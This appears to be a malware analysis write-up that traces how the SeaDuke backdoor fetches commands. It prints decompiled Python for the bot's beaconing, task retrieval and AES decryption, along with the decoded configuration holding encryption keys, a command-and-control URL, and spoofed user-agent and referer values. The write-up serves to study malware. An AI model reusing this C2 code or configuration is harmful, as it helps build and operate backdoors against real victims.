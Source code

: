# how does seaduke fetch instructions from the mothership?
`main()` asks `networkHandleKlass` to get tasks:
```python
def main():
    ...
    networkTasks=networkHandleKlass.get_tasks()


class NetworkHandlerKlass(object):
    def get_tasks(self):
        ...
```
this instantiates a `CryptoKlass` object called `pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTziQDy`.
```python
class CryptoKlass(object):

    def __init__(self,v_crypto_aes_key,v_crypto_aes_iv,**pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ):
        if pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ.get('b64',True):
            v_crypto_aes_key=base64_b64decode(v_crypto_aes_key)
            v_crypto_aes_iv=base64_b64decode(v_crypto_aes_iv)
        self.__aes_key=v_crypto_aes_key
        self.__aes_iv=v_crypto_aes_iv
```
it then does three inner loops:
```python
class NetworkHandlerKlass(object):

    def get_tasks(self):
        ...
        for _ in range(botKlass.total_hosts):
            for _ in range(botKlass.total_transports):
                for _ in range(3):
                    networkTasks=[]
                    try:
                        response_data = self.__send_request(id=botKlass.bot_id)
                        decoded_response = self.decode_data(response_data)  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQizDy renamed to decoded_response
                        if not 'tasks' in decoded_response:
                            return []
                        decoded_tasks = decoded_data['tasks']  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTQiezD renamed to decoded_tasks
                        for networkTask in decoded_tasks:
                            if 'task_data' in networkTask and networkTask['task_data']:
                                networkTask['task_data'] = my_cryptoklass.decode_data(networkTask['task_data'])
                                networkTasks.append(networkTask)
                        botKlass.is_first_request=False
                        return networkTasks
```
## request information from remote server
this is a critical part since it is where botKlass requests and receives instructions with `NetworkHandlerKlass.__send_request` method:
```python
response_data=self.__send_request(id=botKlass.bot_id)

class BotKlass(object):

    def __init__(self):
        self.__settings=self.__load_settings()
        ...
        self.__bot_id=self.__settings['bot_id']


class NetworkHandlerKlass(object):
    ...
    def __send_request(self, **x):
        url = x.pop('url', self.url)  #  Syntax : dict.pop(key, def) Parameters : key : The key whose key-value pair has to be returned and removed. def : The default value to return if specified key is not present. 
        encoded_cookie_data = None
        res = None
        
        if x:
            encoded_cookie_data=self.__encode_cookie(x)
        
        if botKlass.current_transport=='wininet':  # windows interface
            pass
            p = HttpKlass(url, self.user_agent)
            res = p.send_request(encoded_cookie_data, self.referer)
        else:
            pass
            
            header = urllib2_build_opener()
            header.addheaders=[('User-agent',self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            
            if self.referer:
                pass

            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res, e)
        return res
```
### what is the `url`?
since `NetworkHandlerKlass` wasnt provided with an url, we rely on its url.
```python
class NetworkHandlerKlass(object):

    def __init__(self,**foo):
        self.__url = foo.get('url', None)

    @property
    def url(self):
        return self.__url if self.__url else botKlass.current_host
```
since `self.__url=None`, we look at `botKlass.current_host`.
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
`botKlass.current_host` requires `self.__settings` to execute `self.__load_settings()`:
```python
class BotKlass(object):
    ...
    def __load_settings(self):
        settings_file_path = self.settings_file_path
        d = {}  # pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTziQeD replaced to d
        if not os_path.exists(settings_file_path):
            d = get_default_settings()
        else:
            try:
                with open(settings_file_path,'rb')as settings_file:
                    bot_settings = get_default_settings()
                    v_crypto_aes_key = bot_settings['keys']['aes']
                    v_crypto_aes_iv = bot_settings['keys']['aes_iv']
                    c = CryptoKlass(v_crypto_aes_key,v_crypto_aes_iv)
                    k = c.decrypt(settings_file.read())
                    d = json_loads(k)
            except Exception as e:
                pass
                os_remove(settings_file_path)
                d = get_default_settings()
        return d
```
this calls the following for `settings_file_path`, which creates a file path based on the bot's `key_id` (the key_id is defined in `bot_settings`):
```python
class BotKlass(object):
    ...
    @property
    def settings_file_path(self):
        key_id = get_default_settings()['key_id']  # hardcoded as P4BNZR0
        if v_sys_platform.startswith('win'):
            w ='tmp' + key_id.lower()
        else:
            w ='.'+key_id
        y = tempfile_gettempdir()
        if v_sys_platform.startswith('win'):
            z=ctypes.windll.shell32.SHGetFolderPathW
            z.argtypes=[ctypes.wintypes.HWND,ctypes.c_int,ctypes.wintypes.HANDLE,ctypes.wintypes.DWORD,ctypes.wintypes.LPCWSTR]
            a=ctypes.wintypes.create_unicode_buffer(ctypes.wintypes.MAX_PATH)
            z(0,0x1C,0,0,a)
            y=a.value
        return os_path.join(y, w)
```
which calls `get_default_settings()`, which returns a [dict called `bot_settings`](https://github.com/mynameisvinn/Seaduke/blob/master/bot_settings.md):
```python
bot_settings=json_loads(zlib_decompress(base64_b64decode('eJx1kF1PwjAUhv/K0iuNpiUMg8Fw4QSTAfFrQQ3GNN12Nua2dpyWj0n877ZAvPOqzTnP+77nnD3JCtSG41ryFCrRkoHXufRICa223z0R4F4yDb/i7wVb7NLx1XTUfVf6fRXG4xTvdq1fr0ZRNHub9IP70ldDYvVWxouNUyYVzKdhcVHfvkbTWbf/2Juw+fNwSH4ctjaqUiLlGowpZH7MhB1wKWpw8pnKlZyH1NYOvk3zX8uODwa4yAygbWei0uAylsrupxMsGuPsP8jSmGbAWK1kYRRS3UqaSIZa02bZkE8rQcgADy4HWFt6u93STCQQK1XSRNXMRa41IBc5SOPQqDAQCGQ+9em1dxZYshZYehHgBvDGO+Vqi8UCqcKcnZPjrXmROoenXvCweOm4IkgRV3ab04H+FvoFdgWNdw==')))

def get_default_settings():
    return bot_settings
```
if we look at the dict `bot_settings` we see the following:
```python
```python
{'first_run_delay': 0,
'keys': {'aes': 'KIjbzZ/ZxdE5KD2XosXqIbEdrCxy3mqDSSLWJ7BFk3o=', 'aes_iv': 'cleUKIi+mAVSKL27O4J/UQ=='},
'autoload_settings': {'exe_name': 'LogonUI.exe', 'app_name': 'LogonUI.exe', 'delete_after': False},
'host_scripts': ['http://monitor.syn.cn/rss.php'],
'referer': 'https://www.facebook.com/',
'user_agent': 'SiteBar/3.3.8 (Bookmark Server; http://sitebar.org/)',
'key_id': 'P4BNZR0',
'enable_autoload': False}
```
since we were interested in:
```python
class BotKlass(object):

    def __init__(self):
        self.__settings = self.__load_settings()
    
    @property
    def current_host(self):
        return self.__settings['host_scripts'][self.__current_host_index]
```
we now know `url` points to http://monitor.syn.cn/rss.php.

## we have the url, now what?
to refresh, we were evaluating `self.__send_request()`:
```python
class NetworkHandlerKlass(object):
    def get_tasks(self):
        ...
		response_data=self.__send_request(id=botKlass.bot_id)
        ...

    def __send_request(self, **x):  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L1446
        ...
        else:
            pass
            header = urllib2_build_opener()
            header.addheaders=[('User-agent',self.user_agent)]
            
            if encoded_cookie_data:
                header.addheaders.append(('Cookie', encoded_cookie_data))
            
            if self.referer:
                pass

            d = header.open(url)
            res = d.read()
            e = d.info().get('Content-Encoding')
            if e:
                res = CryptoKlass.unpack_data(res,e)
        return res
```
when we ask `NetworkHandlerKlass` to `__send_request`, it will receive some packet from http://monitor.syn.cn/rss.php and decrypt it with `CryptoKlass`.
